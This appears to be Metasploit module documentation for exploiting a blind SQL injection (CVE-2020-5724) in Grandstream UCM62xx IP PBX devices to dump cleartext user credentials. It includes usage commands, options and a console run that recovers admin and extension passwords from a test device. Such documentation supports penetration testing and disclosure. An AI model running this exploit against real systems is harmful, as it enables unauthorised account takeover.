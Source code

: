 ## Vulnerable Application

### Description

This module uses a blind SQL injection (CVE-2020-5724) affecting the Grandstream UCM62xx
IP PBX to dump the users table. The injection occurs over a websocket at the websockify
endpoint, and specifically occurs when the user requests the challenge (as part of a
challenge and response authentication scheme). The injection is blind, but the server
response contains a different status code if the query was successful. As such, the
attacker can guess the contents of the user database. Most helpfully, the passwords are
stored in cleartext within the user table (CVE-2020-5723).

This issue was patched in Grandstream UCM62xx IP PBX firmware version 1.20.22.

### Installation

The UCM62xx PBX is a physical device and is not known to have been successfully emulated.
However, if you have a device, affected firmware can be downloaded here:

* http://firmware.grandstream.com/Release_UCM62xx_1.0.20.22.zip

## Verification Steps

* Acquire an affected device and configure it with the affected firmware
* Do: `use auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess`
* Do: `set RHOST <ip>`
* Do: `run`
* You should get a list of valid credentials for the target device.

## Options

### TARGETURI

Specifies base URI. The default value is `/`.

### ID_SCAN

Indicates the total number of user IDs to scan for. The module starts by scanning the
database for valid user ids. The IDs are sequential starting at 0. The default
scans the first 30 IDs which would be 0 - 29.

### STRING_FIELD_LENGTH

Indicates the maximum length of the string fields (username and password) that
we'll allow for in our SQLi guessing.

## Scenarios

### Grandstream UCM6202 IP PBX firmware version 1.0.20.20

```
msf6 > use auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > show options

Module options (auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ID_SCAN    30               yes       The number of initial user ids to scan
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.0.9         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8089             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > run

[*] Requesting version information from /cgi
[*] The reported version is: 1.0.20.20
[*] Found 6 valid user ids
[*] Found username: admin
[*] Found password: cheesed00dle
[*] Found username: 1000
[*] Found password: gZ15S8O8U5S72oli
[*] Found username: 1001
[*] Found password: qK6uRxwC
[*] Found username: 1002
[*] Found password: aP9ux515W7p5U
[*] Found username: 1003
[*] Found password: pM6mo!E8u37k
[*] Found username: 1004
[*] Found password: mC7N68dm8h
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > 
```
